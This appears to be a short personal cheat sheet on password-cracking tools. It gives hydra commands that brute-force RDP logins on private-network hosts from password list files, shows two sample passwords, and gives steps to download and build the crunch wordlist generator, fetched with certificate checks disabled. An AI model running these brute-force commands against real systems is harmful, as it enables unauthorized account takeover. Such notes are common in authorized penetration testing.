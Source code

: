 # hydra
## demo
- demo

```
hydra 192.168.2.158 -s 9999 rdp -l administrator -P safe_pwd.txt -V
cat safe_pwd.txt
123456
ll5201314
```

### rdp demo

```
hydra 192.168.2.127 -s 3389 rdp -l Administrator -P pass_dev2_004.txt -t4 -V -W 1
```


## crunch
- centos 安装

```
wget --no-check-certificate  https://udomain.dl.sourceforge.net/project/crunch-wordlist/crunch-wordlist/crunch-3.6.tgz
tar -xzvf crunch-3.6.tgz
cd crunch-3.6/
make
make install
```
